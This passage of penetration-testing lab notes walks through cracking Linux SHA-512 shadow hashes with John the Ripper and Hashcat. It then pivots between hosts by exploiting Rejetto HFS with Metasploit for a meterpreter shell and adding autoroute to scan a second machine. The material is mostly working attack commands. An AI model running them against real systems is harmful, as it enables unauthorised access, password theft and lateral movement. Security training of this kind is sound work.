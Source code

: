 **Cracking the hashes with John the Ripper**

```shell
gzip -d /usr/share/wordlists/rockyou.txt.gz  # Decompress the wordlist

# Crack the hashes using John (SHA-512 is the format for $6$ hashes)
john --format=sha512crypt /root/.msf4/loot/....shadow.txt --wordlist=/usr/share/wordlists/rockyou.txt

# Wait a few minutes — John will reveal the cracked password
```

**Cracking with Hashcat**

```shell
# Identify the correct mode for SHA-512 (Linux shadow format)
hashcat --help | grep 1800  # 1800 = sha512crypt

# Run Hashcat (mode 1800 for SHA-512, attack mode 0 for dictionary attack)
hashcat -m 1800 -a 0 /root/.msf4/loot/...shadow.txt /usr/share/wordlists/rockyou.txt

# Hashcat will display: <hash>:<plaintext_password>
```

<br>

## 9. Pivoting

This lesson focuses on the concept of pivoting, a crucial technique in penetration testing that allows an attacker to move from one compromised system to another within the same network. By exploiting vulnerabilities on the initial target, you will gain access and then pivot to exploit and access a secondary target.

```shell
ping -c 1 <target_IP1>
ping -c 1 <taregt_IP2> # No response.

# Gain access to the Target 1
nmap -sV <target_IP1>
searchsploit hfs
searchsploit rejetto
service postgresql start && start
use exploit/windows/http/rejetto_hfs_exec
show options
set RHOSTS <target_IP1>
exploit

# We have successfully exploited the target vulnerable application (hfs) and received a meterpreter shell. Check target machine IP Address.
ipconfig

# We can observe, there is only one network adapter and we have two machine IP addresses. But, we cannot access “Victim Machine 2” directly from the attacker’s machine. We will add a route and then we will run an auxiliary port scanner module on the second victim machine to discover a host and open ports.
run autoroute -s <target_IP1/mask> 
# e.g. IP > 10.0.29.148 Mask > 255.255.255.0 ------ IP 10.0.29.0 !!!
run autoroute -p
background

background
use auxiliary/scanner/portscan/tcp
set RHOSTS <target_IP2>
set PORTS 1-100
exploit

```